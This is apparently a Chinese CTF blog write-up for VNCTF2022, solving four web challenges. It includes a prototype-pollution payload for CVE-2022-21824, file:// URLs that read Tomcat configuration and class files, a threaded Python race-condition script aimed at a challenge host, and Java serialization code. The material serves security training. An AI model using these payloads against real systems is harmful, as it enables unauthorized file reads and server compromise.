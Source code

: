 ```yaml
---
uuid: 2629a90a-dfd8-1bb8-ec6c-171901735ee4
title: VNCTF2022---WP
date: 2022-02-12 13:27:31
tags:
       - 赛后复盘
       - CTF
categories: 
       - [赛后复盘]
       - [CTF]
---
```


**比赛做出来的题目做一些记录**

<!--more-->

## GameV4.0

![image-20220212132916406](https://img-blog.csdnimg.cn/img_convert/ead1677d2ad597c53bfb2cdf1a13a5e8.png)

![image-20220212132943001](https://img-blog.csdnimg.cn/img_convert/64becc640c08905a842b4a2f73d7792f.png)

看这样子又是个游戏，这样的题考察的都比较基础！看到这个题娱乐性的玩了几局，没啥意思，开始正常做题吧！

代码审计，搜索flag![image-20220212133150686](https://img-blog.csdnimg.cn/img_convert/86b54f8306cc9056a8746300d2cb977d.png)

一点就中！![image-20220212133205891](https://img-blog.csdnimg.cn/img_convert/324d0233209e4fc1d6429414d574469b.png)

base64解密![image-20220212133234720](https://img-blog.csdnimg.cn/img_convert/058e790958e6bc9c07ad44996a3858b2.png)

稍微改一下即得到flag！VNCTF{Welcome_to_VNCTF2022}

## gocalc0

![image-20220217215928285](https://img-blog.csdnimg.cn/img_convert/0e98bffdfd127fc1d02517b4a4b0ea98.png)

点击flag在这里，发现flag在运行里！![image-20220217220006414](https://img-blog.csdnimg.cn/img_convert/55f91762564bfce50b00107ad024ca56.png)

这个时候考虑到应该是在传输的过程中有重要数据，用抓包看一下！![image-20220217220056349](https://img-blog.csdnimg.cn/img_convert/96b7e2b8d7150c534e7e027ebd8dc56d.png)

send数据之后看到了cookie的数据貌似是base64加密，尝试解密后发现还是base64加密，两次base64解密后得到flag！

![image-20220217220156892](https://img-blog.csdnimg.cn/img_convert/6e8ce4e1331aee73d525eac9385de2cf.png)

## newcalc0

![image-20220217222238456](https://img-blog.csdnimg.cn/img_convert/ed918af49212a1373b66e25855a5ac1f.png)

这个有一个源代码，看一下！

```
const express = require("express");
const path = require("path");
const vm2 = require("vm2");

const app = express();
app.use(express.urlencoded({ extended: true }));
app.use(express.json());

app.use(express.static("static"));

const vm = new vm2.NodeVM();

app.use("/eval", (req, res) => {
  const e = req.body.e;
  if (!e) {
    res.send("wrong?");
    return;
  }
  try {
    res.send(vm.run("module.exports="+e)?.toString() ?? "no");
  } catch (e) {
    console.log(e)
    res.send("wrong?");
  }
});

app.use("/flag", (req, res) => {
  if(Object.keys(Object.prototype).length > 0) {
    Object.keys(Object.prototype).forEach(k => delete Object.prototype[k]);
    res.send(process.env.FLAG);
  } else {
    res.send(Object.keys(Object.prototype));
  }
})

app.use("/source", (req, res) => {
  let p = req.query.path || "/src/index.js";
  p = path.join(path.resolve("."), path.resolve(p));
  console.log(p);
  res.sendFile(p);
});

app.use((err, req, res, next) => {
  console.log(err)
  res.redirect("index.html");
});

app.listen(process.env.PORT || 8888);
```

看了官方wp发现这是考察原型链污染，利用的是CVE-2022-21824

```
https://nodejs.org/zh-cn/blog/vulnerability/jan-2022-security-releases/
```

首先需要bp抓包然后payload一下下面的内容：

```
console.table([{a:1}],['__proto__'])
```

之后直接访问/flag就出来结果了!

![image-20220217222805239](https://img-blog.csdnimg.cn/img_convert/86435b307e352ebcb3bc200a778e55c7.png)

> `console.table`API的作用是将数据以表格的形式显示。

推荐：

两个在线反编译网站

```
http://www.javadecompilers.com
https://www.decompiler.com/
```

## easyJava[复现]

```
/file?url=file:///usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml
/file?url=file:///usr/local/tomcat/webapps/ROOT/WEB-INF/classes
```

![image-20220314212140534](https://img-blog.csdnimg.cn/img_convert/c2c8f49c3092e7b60b403b5aa1df00ce.png)

查看classes发现上图这些文件，查看servlet![image-20220314212345047](https://img-blog.csdnimg.cn/img_convert/fd043d0c34d7d7c04d9c629d2a6486ac.png)

继续查看文件，第二个文件，得到附件，进去审计！![img](https://img-blog.csdnimg.cn/img_convert/d01cc32b13c744a74d3206cb21ebdc3c.png)![image-20220314212415116](https://img-blog.csdnimg.cn/img_convert/21f2df90aa809ffbe1eb8ff5f789efcd.png)

要获取flag就得使得key的值正确且反序列化出来的user对象属性值要与this.user当中一致。

如何获取key 在doGet函数中 if 和 else当中的判断相同 冲突
要想获取key 只能通过条件竞争 才能在上面的判断中不成立 进入else后得到正确的name![img](https://img-blog.csdnimg.cn/img_convert/615934892be30fd5ad65532847bf18f2.png)

```
# -*- coding: UTF-8 -*-
import requests
import threading
host = "http://aafc6475-042c-4bf7-827e-4f577bb2838d.node4.buuoj.cn:81/"

class myThread (threading.Thread):
    def __init__(self, name):
        threading.Thread.__init__(self)
        self.name = name
    def run(self):
        print ("开始线程：" + self.name)
        runing(self.name)
        print ("退出线程：" + self.name)

def runing(name):
	while True:
	 r = requests.get(host+"/evi1?name=%s" % name)
	 r.encoding = "utf-8"
	 if r.text.find("The Key is")!=-1:
	 	print(r.text)
	 	return 0

# 创建新线程
thread1 = myThread("asdqwer")
thread2 = myThread("vnctf2022")

# 开启新线程
thread1.start()
thread2.start()
thread1.join()
thread2.join()
```

![image-20220314213034641](https://img-blog.csdnimg.cn/img_convert/4bcc47c6b9aead7729d39f210bd2c637.png)

然后就是要满足this.user.equals(u) 直接序列化一个就行。

```
package Payload;

import entity.User;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;
import util.SerAndDe;

public class Ser {
    public static void main(String[] args) throws IOException {
        User user = new User("m4n_q1u_666","666","180");
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(user);

        byte[] ser = bos.toByteArray();
        Base64.Encoder encoder = Base64.getEncoder();
        String encodedText = encoder.encodeToString(ser);
        System.out.println(encodedText);
        User user2 = (User) SerAndDe.deserialize(ser);
        System.out.println(user2);
    }
}
```

最后提交key和生成的[base64](https://so.csdn.net/so/search?q=base64&spm=1001.2101.3001.7020)就可以得到flag！
